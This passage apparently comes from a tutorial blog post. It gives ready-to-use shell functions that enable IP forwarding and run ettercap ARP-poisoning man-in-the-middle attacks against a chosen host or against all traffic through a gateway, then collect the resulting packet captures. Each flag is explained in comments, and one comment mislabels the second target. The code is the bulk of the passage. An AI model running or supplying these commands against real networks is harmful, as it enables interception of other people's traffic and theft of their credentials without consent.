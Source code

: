{% highlight ruby %}
function update() { sudo apt-get update && sudo apt-get -y upgrade; }
#This keeps your system up to date. Always run this before experimenting.
{% endhighlight %}

{% highlight ruby %}
function poison ()
{
sudo sysctl -w net.ipv4.ip_forward=1;
sudo ettercap -T -M arp:remote /$gatewayIP// /$targetIP//;
sudo sysctl -w net.ipv4.ip_forward=0;
}
#sysctl: used to modify built in system varibles.
#-w: used to specify a change in sysctl itself.
#net.ipv4.ip_forward=1: Enable IP forwarding which allows our network monitoring tool to forward all traffic to a different device.

#ettercap: A tool that is used to monitor traffic
#-T: Text only interface. As opposed to graphical
#-M arp:remote: Tells Ettercap to perform a "man in the middle attack" as discussed earlier in the article. We will tell it to use the arp attack to collect inbound and outbound traffic. As opposed to arp:oneway which only poisons the outbound traffic from the target.
#/$gatewayIP// The first target. Redirecting all traffic from target1 to target2
#/$gatewayIP// The second target.

#sysctl: Same as the first but turns IP forwarding back off.
{% endhighlight %}

{% highlight ruby %}
function poison_all ()
{
sudo sysctl -w net.ipv4.ip_forward=1;
sudo ettercap -T -M arp:remote /$gatewayIP// //;
sudo sysctl -w net.ipv4.ip_forward=0;
}
#Same as above, but an unspecified target means, "collect all traffic going to and from the first targeted device"
{% endhighlight %}

{% highlight ruby %}
function ip_forward_off() { sudo sysctl -w net.ipv4.ip_forward=0; }
#Same as above, but =0 turns IP forwarding off. Use this command when you are done with your operation.
{% endhighlight %}

The next function cannot simply be added with a copy paste. You will need to look at the second command and change myuser:myuser to whatever your active username is.

{% highlight ruby %}
function mv_pcap () 
{ 
sudo chmod 600 /tmp/*.pcap;
sudo chown $myUser:$myGroup /tmp/*.pcap;
sudo mv /tmp/*.pcap ~;
}
#modifies the permissions for saved packet captures then moves them to the home folder
{% endhighlight %}
